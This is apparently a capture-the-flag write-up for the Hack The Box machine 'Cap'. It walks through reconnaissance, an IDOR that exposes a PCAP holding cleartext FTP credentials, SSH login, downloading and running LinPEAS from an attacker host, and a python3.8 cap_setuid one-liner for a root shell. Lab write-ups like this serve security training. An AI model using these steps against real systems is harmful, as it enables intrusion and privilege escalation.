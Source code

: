 # HTB: Cap

## 📌 Box Info
- **Name:** Cap
- **IP:** 10.10.10.245
- **OS:** Linux
- **Difficulty:** [Easy](Easy)

---

## 🔍 Recon
```bash
nmap -T4 -A -p- 10.10.10.245
```

### Ports Found
- **21/tcp** → [FTP](FTP) (vsftpd 3.0.3)
- **22/tcp** → [SSH](SSH) (OpenSSH 8.2p1)
- **80/tcp** → [HTTP](HTTP) (gunicorn)

---

## 🔧 Web Enumeration
- Visit `http://10.10.10.245` → Security Dashboard interface
- `Security Snapshot` → Download PCAP files via `/download` endpoint
- Change `id=1` to `id=0` to reveal an additional hidden PCAP

### Download and Analyze PCAP
```bash
# Download hidden capture
curl "http://10.10.10.245/download?id=0" -o hidden.pcap

# Open in Wireshark and search for "password"
```

### Extracted Credentials from FTP
- **Username:** nathan
- **Password:** Buck3tH4TF0RM3!

---

## 🔐 Access via SSH
```bash
ssh nathan@10.10.10.245
# password: Buck3tH4TF0RM3!
```

---

## 🪧 Privilege Escalation
### Use LinPEAS
```bash
# Transfer and run LinPEAS
wget http://10.10.14.6/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```

### Finding
- `/usr/bin/python3.8` has **cap_setuid** capability

### GTFOBins Exploit
```bash
python3.8 -c 'import os; os.setuid(0); os.system("/bin/sh")'
```

---

## ✅ Root Access
```bash
whoami
id
cat /root/root.txt
```

---

## 📂 Summary
- Cleartext FTP credentials found in PCAP
- Used for SSH access
- `cap_setuid` capability abused on Python for root shell

---

## 📃 Resources
- [GTFOBins - python](https://gtfobins.github.io/gtfobins/python/#capabilities)
- [CVE-Exploit Reference](https://www.hackthebox.com)